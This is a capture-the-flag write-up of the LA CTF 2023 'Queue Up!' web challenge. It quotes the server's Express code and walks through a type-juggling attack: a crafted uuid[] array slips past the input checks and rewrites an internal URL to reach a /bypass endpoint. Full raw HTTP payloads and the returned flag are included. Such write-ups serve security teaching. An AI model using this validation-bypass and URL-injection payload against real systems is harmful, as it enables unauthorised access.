


# Queue Up!

This was a web challenge from LA CTF 2023.




## Analysis

When you visit the challenge, you are assigned cookie named `uuid` with a value like `5a4d25a5-5873-41e2-a4cc-f3633205df40` and put into a queue.  You are told that you will have to wait in the queue a long time.


In studying the provided source, here are the relevant snippets of code:

`queue.js`

```javascript
    app.get("/api/:uuid/status", async (req, res) => {
        try {
            const user = await Queue.findByPk(req.params.uuid);
            res.send(user.served);

        } catch {
            res.send("false");
        }

    });

    app.get("/api/:uuid/bypass", async (req, res) => {
        try {
            const user = await Queue.findByPk(req.params.uuid);
            if (user === undefined) {
                res.send("uuid not found");
            } else {
                await user.update({served: true});
                res.send("bypassed");
            }
        } catch {
            res.send("invalid uuid");
        }

    });
```

You can see that we want to hit the `/bypass` endpoint with our `uuid`.  However, we cannot hit any of the endpoints in `queue.js` directly.  They can only be hit by code in `flagserver.js`.

Here's some relevant code from there:

`flagserver.js`

```javascript
app.post("/", async function (req, res) {
    let uuid;
    try {
        uuid = req.body.uuid;
    } catch {
        res.redirect(process.env.QUEUE_SERVER_URL);
        return;
    }

    if (uuid.length != 36) {
        res.redirect(process.env.QUEUE_SERVER_URL);
        return;
    }
    for (const c of uuid) {
        if (!/[-a-f0-9]/.test(c)) {
            res.redirect(process.env.QUEUE_SERVER_URL);
            return;
        }
    }


    const requestUrl = `http://queue:${process.env.QUEUE_SERVER_PORT}/api/${uuid}/status`;
    try {
        const result = await (await fetch(requestUrl, {
            headers: new Headers({
                'Authorization': 'Bearer ' + process.env.ADMIN_SECRET
            })
        })).text();
        if (result === "true") {
            console.log("Gave flag to UUID " + uuid);
            res.send(process.env.FLAG);
        } else {
            res.redirect(process.env.QUEUE_SERVER_URL);
        }
    } catch {
        res.redirect(process.env.QUEUE_SERVER_URL);
    }

});
```

If we POST to this endpoing and include a `uuid` in the body, if our `uuid` passes all the checks, it will make a GET request (using `fetch()`) to the `/status` endpoing in `queue.js`

## Approach

Since we have control over the `uuid` that is POSTed, our goal will be to leverage this expression:

```javascript
`http://queue:${process.env.QUEUE_SERVER_PORT}/api/${uuid}/status`
```

so that it actually hits the `/bypass` endpoint with our assigned `uuid` instead of the `/status` endpoint.

However, it seems to thoroughly verify that the POSTed `uuid` is in the expected syntax which means we normally would not be able to do much here.

However, we noticed this line in `flagserver.js`

```javascript
app.use(express.urlencoded());
```

From this documentation:

https://expressjs.com/en/api.html

We can read:



This means we can POST a ``uuid` that is not just a simple string.

If, instead, we make it an array of strings, then we have some room to maneuver.

This technique is called `type juggling`.

To get past:

```javascript
    if (uuid.length != 36) {
```

we can simply make the array have 36 entries.

To get past:

```javascript
    for (const c of uuid) {
        if (!/[-a-f0-9]/.test(c)) {
```

we just need to be sure that each of the 36 entries has at least **one** character that matches the pattern.

Using Burp's Repeater function, we setup this payload:

```
POST / HTTP/1.1
Host: qu-flag.lac.tf
Sec-Ch-Ua: "Not A(Brand";v="24", "Chromium";v="110"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "macOS"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.5481.78 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Content-Type: application/x-www-form-urlencoded
Connection: close
Content-Length: 368

uuid[]=990c5a07-3501-4aed-b271-eb6b09f67bba/bypass?z=&uuid[]=2&uuid[]=2&uuid[]=2&uuid[]=2&uuid[]=2&uuid[]=2&uuid[]=2&uuid[]=2&uuid[]=2&uuid[]=2&uuid[]=2&uuid[]=2&uuid[]=2&uuid[]=2&uuid[]=2&uuid[]=2&uuid[]=2&uuid[]=2&uuid[]=2&uuid[]=2&uuid[]=2&uuid[]=2&uuid[]=2&uuid[]=2&uuid[]=2&uuid[]=2&uuid[]=2&uuid[]=2&uuid[]=2&uuid[]=2&uuid[]=2&uuid[]=2&uuid[]=2&uuid[]=2&uuid[]=2
```

Notice we set the `Content-Type` request header to the normal value an HTML form would set when POSTing.

The `uuid[]` syntax in the payload is just syntactic sugar supported by the express library.  It ends up building an array whose entries consist of the individual `uuid[]` values.

```javascript
["990c5a07-3501-4aed-b271-eb6b09f67bba/bypass?z=","2","2","2","2","2","2","2","2","2","2","2","2","2","2","2","2","2","2","2","2","2","2","2","2","2","2","2","2","2","2","2","2","2","2","2"]
```

Since each entry has a `2`, it will bypass the regex loop.

We then get to the expression that builds the URL:

```javascript
`http://queue:${process.env.QUEUE_SERVER_PORT}/api/${uuid}/status`
```

In this case the `${uuid}` expression will call `.toString()` on the array which will just join all the values using a comma.

Thus, it builds up a URL with a context path like this:

```
/api/990c5a07-3501-4aed-b271-eb6b09f67bba/bypass?z=,2,2,2,2,2,2,2,2,2,2,2,2,2,2,2,2,2,2,2,2,2,2,2,2,2,2,2,2,2,2,2,2,2,2,2/status
```

Notice this will hit the `/bypass` endpoint with our `uuid` since it stuffs the rest of the entries (and the `/status` portion) into a query string.

## Getting the Flag

If we POST the above payload, `flagserver.js` will indeed hit the `/bypass` endpoing in `queue.js`.

We then only need to do one more (normal) POST to `/` with our `uuid`:

```
POST / HTTP/1.1
Host: qu-flag.lac.tf
Sec-Ch-Ua: "Not A(Brand";v="24", "Chromium";v="110"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "macOS"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.5481.78 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Content-Type: application/x-www-form-urlencoded
Connection: close
Content-Length: 41

uuid=990c5a07-3501-4aed-b271-eb6b09f67bba
```

This is handled by the following code in `flagserver.js`:

```javascript
// If post, check if uuid has finished the queue, and if so, show flag
app.post("/", async function (req, res) {
    let uuid;
    try {
        uuid = req.body.uuid;
    } catch {
        res.redirect(process.env.QUEUE_SERVER_URL);
        return;
    }

    if (uuid.length != 36) {
        res.redirect(process.env.QUEUE_SERVER_URL);
        return;
    }
    for (const c of uuid) {
        if (!/[-a-f0-9]/.test(c)) {
            res.redirect(process.env.QUEUE_SERVER_URL);
            return;
        }
    }


    const requestUrl = `http://queue:${process.env.QUEUE_SERVER_PORT}/api/${uuid}/status`;
    try {
        const result = await (await fetch(requestUrl, {
            headers: new Headers({
                'Authorization': 'Bearer ' + process.env.ADMIN_SECRET
            })
        })).text();
        if (result === "true") {
            console.log("Gave flag to UUID " + uuid);
            res.send(process.env.FLAG);
        } else {
            res.redirect(process.env.QUEUE_SERVER_URL);
        }
    } catch {
        res.redirect(process.env.QUEUE_SERVER_URL);
    }

});
```

and we are rewarded with the flag:

```
HTTP/1.1 200 OK
Server: nginx/1.23.2
Date: Sun, 12 Feb 2023 14:53:28 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 25
Connection: close
X-Powered-By: Express
ETag: W/"19-HpWjYkZf5WOM6oKVsTYZvJfBkyI"

lactf{Byp455in_7he_Qu3u3}
```

Thanks to LA CTF for a great web challenge.

